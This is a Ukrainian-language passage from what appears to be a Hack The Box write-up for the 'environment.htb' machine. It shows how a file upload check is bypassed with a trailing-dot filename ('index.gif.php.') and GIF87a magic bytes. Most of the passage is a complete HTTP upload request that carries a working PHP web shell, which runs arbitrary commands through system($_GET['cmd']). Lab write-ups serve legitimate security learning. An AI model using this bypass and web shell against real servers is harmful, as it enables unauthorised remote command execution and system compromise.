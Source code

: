 Бекенд ймовірно має погану regex перевірку параметра filename, тому що я зміг завантажити файл з назвою `index.gif.php.` з крапкою в кінці, PHP cmd шелом всередині і magic bytes в запиті для обходу перевірки типу MIME.

Для того, щоб обійти перевірку на magic bytes достатньо просто додати перед нашим шеллом рядок `GIF87a` для типу файлів gif, та, також, додати крапку в кінці назви файлу, яка обрізається на стороні серверу й перетворюється на звичайний `index.gif.php`

```http
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 680
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyqgqevjtjeuKysRj
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InpRTit5azYwcm1kcnl3SUgxVUlqa2c9PSIsInZhbHVlIjoiTytCOG9rclVwNkdVdDVQQnVoVEVTelRJZVpKK1pHb2k2UzlvWEIrekw3YzhjNTRKNDFBYkU2Q0tRbnZhRkVncjQwN1NxWU4wV0FhL0E3RjM2dWdaTTFsT1EvT1lXcXplR3BmMTRGWDdXb3ZuMmhlS2U4bjFvOTNHMk51S01PLzQiLCJtYWMiOiI0MmM3MjczZjkxYjA5ZTRiNmM4ZWJjNDFiNWY2ODE2MzI4YWI5NzYzNmU0YjJiZDBkOTEyY2JhYmFlNDIxNDUyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImJZaWFGWFBKRk80ZGkycXVVRXhpK2c9PSIsInZhbHVlIjoidlp0SEpSdGFkeTJkYnRETzNGc0Q4MkgwTzFhSWpTYXNzWVdmU3lHK3A0WHEwQUpkZ1dkSzNPM2E2RmZoVkZZZnZNZnFqWjcxNmR3emxTSXF3N2E0YWJNVndxazhuY081NUpPeWpFcW1MMU5FSVp5WW9RVGFjcCtJK0wzOUYydmciLCJtYWMiOiIxMWVjZmM1NTM5NWI0ZGMzMDhlMTM2YTkwNjZhNTI4Y2FjMGEyOGVmZDFkNTBiYWQxNTAyZmViNTAwMDliODFiIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="_token"

U55EcHxTJCO0cvMScKzD20VSsKYd9oLV8lNhKtn9
------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="upload"; filename="index.gif.php."
Content-Type: image/jpeg

GIF87a
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

------WebKitFormBoundaryyqgqevjtjeuKysRj--
```

